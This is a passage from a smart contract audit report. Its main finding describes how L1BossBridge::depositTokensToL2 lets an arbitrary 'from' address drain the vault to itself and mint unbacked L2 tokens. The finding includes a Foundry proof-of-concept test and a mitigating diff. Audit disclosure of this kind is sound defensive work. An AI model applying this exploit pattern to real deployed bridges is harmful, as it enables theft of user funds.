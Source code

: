 

**Recommended Mitigation:** Consider redesigning the withdrawal mechanism with replay protection such as nonce.

### [H-3] Calling `L1BossBridge::depositTokensToL2` from the Vault contract to the Vault contract enables infinite minting of unbacked tokens.

**Description:** `L1BossBridge::depositTokensToL2` function allows the caller to specify the `from` address, from which tokens are taken. Because the vault grants infinite approval to the bridge.

**Impact:** It's possible for an attacker to call the `L1BossBridge::depositTokensToL2` function and transfer tokens from the vault to the vault itself. This would allow the attacker to trigger the `Deposit` event any number of times, causing the minting of unbacked tokens in L2. Moreover, they could mint all the tokens to themselves. 

**Proof of Concept:**
Include the following test in the `L1TokenBridge.t.sol` file:



```javascript
    function testCanTransferFromVaultToVault() public{
        address attacker = makeAddr("attacker");
        uint256 vaultBalance = 500 ether;
        deal(address(token), address(vault), vaultBalance);
        // console2.log("vault balance in token:", token.balanceOf(address(vault));

        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);

        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);


    }
```


**Recommended Mitigation:** Consider modifying the `L1BossBridge::depositTokensToL2` function so that the caller cannot specify a `from` address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```

